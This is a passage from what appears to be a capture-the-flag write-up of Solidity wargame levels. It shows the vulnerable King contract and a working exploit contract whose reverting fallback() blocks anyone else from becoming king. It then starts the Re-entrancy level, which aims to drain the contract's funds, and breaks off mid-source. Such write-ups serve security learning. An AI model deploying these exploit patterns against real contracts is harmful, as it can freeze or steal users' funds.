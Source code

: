 ```sol
  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
```

When someone sends ether to the contract, it check if the value is greater than or equal to the prize or the sender is the owner. If so the value amount will be transfered to the king and msg.sender will become the new king. The transfer can potentially break the code if we can `revert()` when transfering value that will block others to become the king.

> ### Solution:
> - We deploy our exploit contract with 0.01 ether.
> - And when recieving ether we have our custom `fallback()` function which will `revert()` the transaction.
> - Once our exploit become the king it will block the others from becoming the new king as a result we will be king forever.
> 
> ```sol
> // SPDX-License-Identifier: UNLICENSED
> pragma solidity ^0.8.0;
> 
> contract kingExploit {
> 
>     constructor(address payable instance) public payable {
>         require(msg.value >= 0.01 ether);
>         instance.call{value : 0.01 ether}("");
>     }
> 
>     fallback () external payable{
>         revert();
>     }
> }
> ```

<hr>

## 10 Re-entrancy
We need to steal all the funds from the contract to complete this level.

#### Source:
```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
```